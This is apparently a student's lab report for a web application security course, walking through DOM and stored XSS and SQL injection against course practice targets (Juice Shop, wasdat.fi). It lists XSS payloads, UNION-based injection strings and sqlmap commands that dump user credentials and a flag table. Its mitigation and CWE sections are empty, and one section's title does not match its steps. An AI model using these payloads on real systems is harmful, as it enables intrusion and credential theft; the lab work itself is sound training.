






# Web Application Security

**Student number:** AB0197  
**Name:** Veeti Hakala    
**Group:** TIC21S  
**Time management:** Approximately 10 hours

## Week 03  

### Cross-Site Scripting:

#### Juice Shop - DOM XSS + Bonus Payload

**Title:** Create a DOM based XSS in Juice Shop.

**Description:** Juice Shop allows `html` inputs in search field.

**Steps to produce:**  

1. Navigate to `https://wasdat.fi:3000/`.
2. Open products view and select search field as active.
3. Use script `<iframe src="javascript:alert(`xss`)">`.
4. Alert box shows xss message.
4. For the bonus payload, use script `<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>`.
5. Alert box shows the bonus payload.

* Impact estimation: **Level of criticality here**
    

* Mitigation:
    * 
    * 
    *  
    *  

* Related OWASP CWE:
    *   
    *  
    *  

---

#### Main target - Stored XSS (Type 2)

**Title:** Find vulnerable page from `wasdat.fi` and inject stored `XSS` to vulnerable element.

**Description:** Wasdat.fi allows regular user to create new products. Text input fields allows to use `html`, so it is vulnerable to `XSS` attack. `Stored XSS` is type 2 = `html injection.`

**Steps to produce:**  

1. Navigate to `https://wasdat.fi/`.
2. Create a user & login in to the website.
3. Go to your profile and select 'Create new product'.
4. Craft XSS payload with student id:
    4. `<iframe>alert.(`xss.ab0197`)</iframe>`.
4. Go back to products page and scroll down to bottom. 
5. New product is added on the bottom and clicking the product will popup and alert box with `xss.ab0197` message.

* Impact estimation: **Level of criticality here**
    

* Mitigation:
    * 
    * 
    *  
    *  

* Related OWASP CWE:
    *   
    *  
    *  

---

#### Old wasdat - Craft JWT token with known secret and impersonate to be the victim :

**Title:** JWT Token `secret` has leaked, which is librarys default value.

**Description:** Web application has vulnerability in the JWT Token `secret`. It is using default value. Any user can impersonate other users because authentication is always validated if secret is known and is used in the `http payload`.

**Steps to produce:**  
1. Vulnerable field was already given: Get / `http://wasdat.fi:3000/rest/products/search?q=`.
2. Use SQL Map to find database type, and schema.
3. Open Kali linux and run command:
    3. > sqlmap -u http://wasdat.fi:3000/rest/products/search?q= --dbs --level=3 --risk=3
    4. > sqlmap -u sqlmap -u http://wasdat.fi:3000/rest/products/search?q= --current-db --tables
    5. > sqlmap -u sqlmap -u http://wasdat.fi:3000/rest/products/search?q= --current-db -T Users --columns
4. Now we know that database is `SQLite`.  Database has `Users` table.
5. Navigate to `https://wasdat.fi:3000/`, click search field as active.
6. Search with: `http://wasdat.fi:3000/rest/products/search?q=')) ORDER BY 1--`
4. `500 Error: SQLITE_ERROR: 1st ORDER BY term out of range - should be between 1 and 9`
    4. 
5. GET `http://wasdat.fi:3000/rest/products/search?q=%27))%20UNION%20SELECT%201,2,3,4,5,6,7,8,9--`
6. User credentials are showing the json form.

* Impact estimation: **Level of criticality here**
    

* Mitigation:
    * 
    * 
    *  
    *  

* Related OWASP CWE:
    *   
    *  
    *  

---

#### Main target - Retrieve flag from database via SQL injection :

**Title:** JWT Token `secret` has leaked, which is librarys default value.

**Description:** There's company's biggest secret hidden in database, but the wasdat query is implemented poorly and it is vulnerable for SQL injection. You need to find hidden flag from wasdat database..

**Steps to produce:**  
1. Navigate to: `http://wasdat.fi`.
2. Head in to search field and make empty search.
3. Take the URL from the search query: `http://wasdat.fi/search?product=`.
4. Test sql injection: `http://wasdat.fi/search?product=')) UNION SELECT 1--`. Output is "invalid search term". This hints for vulnerability.
5. Open Kali CLI and use `sqlmap` with command: `sqlmap -u http://wasdat.fi/search?product= --dbs --level=3 --risk=3`. Output:
    > sqlmap identified the following injection point(s) with a total of 6701 HTTP(s) requests:
---
Parameter: product (GET)
    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: product=' AND 1596=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- DqrJ

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: product=' UNION ALL SELECT CHAR(113,112,118,118,113)||CHAR(74,86,115,70,100,106,68,118,113,87,83,120,116,98,70,72,120,79,117,71,104,83,113,102,121,79,102,106,66,78,121,111,111,106,120,68,120,79,99,110)||CHAR(113,98,107,120,113)-- pCbj  

6. Continue mapping the database schema with command: `sqlmap -u http://wasdat.fi/search?product= --schema:`.
    6.   
7. Based on the schema output: `product_flag` seems to be interesting table.
8. Reveal the columns of the `product_flag` table with command: `sqlmap -u http://wasdat.fi/search?product= -D current_db -T product_flag --columns`
9. We get two columns: flag(varchar) and id(integer).
10. Lets reveal the content of column `flag` with command `sqlmap -u http://wasdat.fi/search?product= -D current_db -T product_flag -C flag --dump`.
11. Flag:  
    11. 

* Impact estimation: **Level of criticality here**
    

* Mitigation:
    * 
    * 
    *  
    *  

* Related OWASP CWE:
    *   
    *  
    *  

---

